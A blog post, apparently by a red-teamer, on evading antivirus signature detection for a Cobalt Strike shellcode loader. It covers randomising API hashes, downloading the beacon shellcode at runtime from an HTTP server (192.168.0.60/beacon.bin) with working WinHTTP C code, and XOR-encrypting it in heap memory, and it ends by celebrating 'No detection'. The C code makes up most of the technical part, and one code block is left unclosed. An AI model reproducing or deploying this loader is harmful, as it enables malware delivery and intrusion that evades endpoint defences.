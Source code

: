 ```yaml
---
title: Shellcodes are dead, long live Fileless Shellcodes
updated: 2023-02-05 22:07
---
```


Recently I was developing a simple Shellcode Loader which uses Callbacks as an alternative of Shellcode execution. While it bypasses every runtime scanning, it failed to bypass the signature detection. So I fired up [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) to identify the bad bytes:

![bad_bytes_threatcheck](https://cdn-images-1.medium.com/max/800/1*KwJR9m_Ua3ujyGbK4GcSTw.png)

At a first glance, it is impossible to understand what exactly is getting detected so I fired up [GHidra](https://ghidra-sre.org/) to manually identify these bad bytes. I simply copied a random pattern from the ThreadCheck (**00 1F CC 07 00 15 CC 07**) and tried searching in the memeory of the compiled EXE of the malware.

![ghidra_in_action](https://cdn-images-1.medium.com/max/800/1*UroW7mIted_uXKaqoQ20og.png)

This is clearly the XORed Shellcode I implemented to my Shellcode Loader and it's getting detected as a Cobalt Strike agent by Defender. Seems like the XOR encryption routine is not strong enough againts static detection and that got me thinking: are stored shellcodes really dead (especially the ones generated from Cobalt Strike)?
I wouldn't be suprised, as currently Cobalt Strike is [the most popular C2 framework](https://twitter.com/teamcymru_S2/status/1604091964386705409?s=20) among threat actors, but something must be done to make the Shellcode great and undetectable again.

## RAW Shellcodes: What's wrong with them?

Cobalt Strike’s payloads are based on Meterpreter shellcodes and include many similarities (sometimes identical) API hashing ([x86](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x86/src/block/block_api.asm) and [x64](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x64/src/block/block_api.asm) versions).

The [default Hashes]() that Cobalt Strike uses are highly signatured; we can get a workaround to such hashes by performing a [dynamic Hash encoding](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection). If you look at the image below, the hash value `0xa779563a` is the default hash of **InternetOpenA**. If you simply google the hash, everything related to Metaploit will show up, so this hash is known to be mostly used by Cobalt Strike beacons and Meterpreter agents. Applying ror13 hashing to such hashes will drastically reduce the detection by AV vendors (to almost 0). As this is already nicely explain on [this article](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection), I'm not going to explain it much further, but the photo below gives the idea of the final result after encoding the hashes. 

![cs_hashes](https://cdn-images-1.medium.com/max/800/1*B6Q4LXM_BP9fMW4ceu_3Lg.png)

## Fileless Shellcode to the rescue

Although it is not a new thing, fileless shellcodes are a good way of avoiding signature detection is by retrieving a shellcode from the internet. This way you will solve the problem of large entropy and any possible signature detection.
On the photo below, there is a comparison between a traditional XORed encrypted shellcode and our fileless shellcode loader. Since the shellcode doesn't have to be stored on .text section, the entropy will descrease drastically (remember that ):

![entropy_comparison](https://cdn-images-1.medium.com/max/800/1*5KjsCjd7bwYLlqjf-CGB2A.png)

The full source code can be found [here](https://github.com/kleiton0x00/RemoteShellcodeExec/), but on this article I will try to break down the code for the sake of understanding.

In order to request the shellcode from the HTTP Server, I will be using  `winhttp` library. Alternatively you can use sockets, based on some researches it might be a better solution which might results on lower runtime detection. The code below is a basic one (it's shorten for understanding purposes) for requesting and retrieving the HTTP Response body of the request (which is the raw shellcode), which basically is going to be stored on a vectored array:

```c
    // Initialize WinHTTP 
    hInternet = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    printf("[+] WinHTTP initialized\n");

    // Connect to the HTTP server 
    hHttpSession = WinHttpConnect(hInternet, L"192.168.0.60", 80, 0); //192.168.0.60:8081
    printf("[+] Connected to HTTP Server\n");

    // Open an HTTP request 
    hHttpRequest = WinHttpOpenRequest(hHttpSession, L"GET", L"/beacon.bin", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    printf("[+] Sending HTTP GET Request\n");

    // Send a request 
    bResults = WinHttpSendRequest(hHttpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    printf("[+] WinHTTP request sent\n");

    // Wait for the response 
    bResults = WinHttpReceiveResponse(hHttpRequest, NULL);
    printf("[+] Response retrieved\n");

    do
    {
        dwSize = 0;
        if (!WinHttpQueryDataAvailable(hHttpRequest, &dwSize))
        {
            printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());
        }

        // Allocate space for the buffer.
        pszOutBuffer = new char[dwSize + 1];

        // No more available data 
        if (!pszOutBuffer) {
            printf("[-] No more available data");
            dwSize = 0;
        }

        // Read the Data.
        ZeroMemory(pszOutBuffer, dwSize + 1);

        if (!WinHttpReadData(hHttpRequest, (LPVOID)pszOutBuffer,
            dwSize, &dwDownloaded))
            printf("Error %u in WinHttpReadData.\n", GetLastError());
        else
            PEbuf.insert(PEbuf.end(), pszOutBuffer, pszOutBuffer + dwDownloaded);

    } while (dwSize > 0);


    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }

    // Close the HTTP request 
    WinHttpCloseHandle(hHttpRequest);

    // Close the session 
    WinHttpCloseHandle(hHttpSession);

    // Cleanup 
    WinHttpCloseHandle(hInternet);
```

## There is always place for encryption

Notice the following part:

```c
    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }
```

The shellcode retrieve from the teamserver is stored in the heap, making it easy for the blue-team to analyze the heap and discover what's inside (clearly our unencrypted shellcode):

![shellcode_written_in_memory](https://cdn-images-1.medium.com/max/800/1*UVRHyvNkqqNV5H6kdcNSHA.png)

Additionally, encrypting the shellcode in Heap is always a better idea:

```c
    char* PE = (char*)malloc(PEbuffer.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuffer[i] ^ 0x7e; //XOR encrypted
    }

    XOR(PE, PEbuffer.size(), key);
```

Where **XOR** is a basic function which decrypts the array: 
```c
void XOR(char* data, int len, unsigned char key) {
    int i;
    for (i = 0; i < len; i++)
        data[i] ^= key;
}

## Profit

1. Entropy is drastically reduced.
2. No detection (Profit!)

https://i.imgur.com/U8LjkcA.mp4
